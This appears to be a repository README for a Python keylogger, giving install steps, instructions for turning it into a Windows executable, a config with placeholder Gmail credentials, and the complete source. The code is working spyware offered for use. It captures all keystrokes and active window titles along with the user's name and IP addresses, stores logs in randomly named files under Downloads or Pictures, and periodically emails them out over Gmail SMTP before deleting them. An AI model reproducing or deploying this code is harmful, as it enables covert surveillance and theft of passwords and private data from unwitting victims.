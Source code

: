 # KEY-LOGGER

### what is keylogger >
Keyloggers are a type of monitoring software designed to record keystrokes made by a user. One of the oldest forms of cyber threat, these keystroke loggers record the information you type into a website or application and send to back to a third party.
# ABOUT THIS KEYLOGGER >
This keylogger written in python3. 
# HOW TO USE THIS KEYLOGGER >
Install python3 (i recommend **python-3.8.6-amd64.exe** version) in your system . After instalation complete now install all module *(i.e requirement.txt)* using pip install.
Now you good to go
# CONVERT PY INTO EXECUTABLE >
** Use pyinstaller and auto-py-to-exe ** , auto-py-to-exe is  GUI based and pyinstaller is manual based.
# config file >
fromAddr = 'xxxxxx@gmail.com'
fromPswd = 'xxxxxxxxx'
# READ CODE
 
#imports
from pynput.keyboard import Key,Listener
import win32gui
import os
import time
import requests
import socket
import random
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders
import threading
import config


datetime = time.ctime(time.time())
user = os.path.expanduser('~').split('\\')[2]
publicIP = requests.get('https://api.ipify.org/').text
privateIP = socket.gethostbyname(socket.gethostname())

msg = f'[START OF LOGS]\n  *~ Date/Time: {datetime}\n  *~ User-Profile: {user}\n  *~ Public-IP: {publicIP}\n  *~ Private-IP: {privateIP}\n\n'
logged_data = []
logged_data.append(msg)

old_app = ''
delete_file = []


def on_press(key):
	global old_app

	new_app = win32gui.GetWindowText(win32gui.GetForegroundWindow())

	if new_app == 'Cortana':
		new_app = 'Windows Start Menu'
	else:
		pass
	
	
	if new_app != old_app and new_app != '':
		logged_data.append(f'[{datetime}] ~ {new_app}\n')
		old_app = new_app
	else:
		pass


	substitution = ['Key.enter', '[ENTER]\n', 'Key.backspace', '[BACKSPACE]', 'Key.space', ' ',
	'Key.alt_l', '[ALT]', 'Key.tab', '[TAB]', 'Key.delete', '[DEL]', 'Key.ctrl_l', '[CTRL]', 
	'Key.left', '[LEFT ARROW]', 'Key.right', '[RIGHT ARROW]', 'Key.shift', '[SHIFT]', '\\x13', 
	'[CTRL-S]', '\\x17', '[CTRL-W]', 'Key.caps_lock', '[CAPS LK]', '\\x01', '[CTRL-A]', 'Key.cmd', 
	'[WINDOWS KEY]', 'Key.print_screen', '[PRNT SCR]', '\\x03', '[CTRL-C]', '\\x16', '[CTRL-V]']

	key = str(key).strip('\'')
	if key in substitution:
		logged_data.append(substitution[substitution.index(key)+1])
	else:
		logged_data.append(key)


def write_file(count):
	one = os.path.expanduser('~') + '/Downloads/'
	two = os.path.expanduser('~') + '/Pictures/'
	#three = 'C:/'
	list = [one,two]

	filepath = random.choice(list)
	filename = str(count) + 'I' + str(random.randint(1000000,9999999)) + '.txt'
	file = filepath + filename
	delete_file.append(file)


	with open(file,'w') as fp:
		fp.write(''.join(logged_data))
	print('written all good')


def send_logs():
	count = 0

	fromAddr = config.fromAddr
	fromPswd = config.fromPswd
	toAddr = fromAddr

	MIN = 10
	SECONDS = 60
	#time.sleep(MIN * SECONDS) # every 10 mins write file/send log
	time.sleep(30) # for debugging ~ yes program works :)
	while True:
		if len(logged_data) > 1:
			try:
				write_file(count)

				subject = f'[{user}] ~ {count}'

				msg = MIMEMultipart()
				msg['From'] = fromAddr
				msg['To'] = toAddr
				msg['Subject'] = subject
				body = 'testing'
				msg.attach(MIMEText(body,'plain'))

				attachment = open(delete_file[0],'rb')
				print('attachment')

				filename = delete_file[0].split('/')[2]

				part = MIMEBase('application','octect-stream')
				part.set_payload((attachment).read())
				encoders.encode_base64(part)
				part.add_header('content-disposition','attachment;filename='+str(filename))
				msg.attach(part)

				text = msg.as_string()
				print('test msg.as_string')

				s = smtplib.SMTP('smtp.gmail.com',587)
				s.ehlo()
				s.starttls()
				print('starttls')
				s.ehlo()
				s.login(fromAddr,fromPswd)
				s.sendmail(fromAddr,toAddr,text)
				print('sent mail')
				attachment.close()
				s.close()

				os.remove(delete_file[0])
				del logged_data[1:]
				del delete_file[0:]
				print('delete data/files')

				count += 1

			except Exception as errorString:
				print('[!] send_logs // Error.. ~ %s' % (errorString))
				pass




if __name__=='__main__':
	T1 = threading.Thread(target=send_logs)
	T1.start()

	with Listener(on_press=on_press) as listener:
		listener.join()

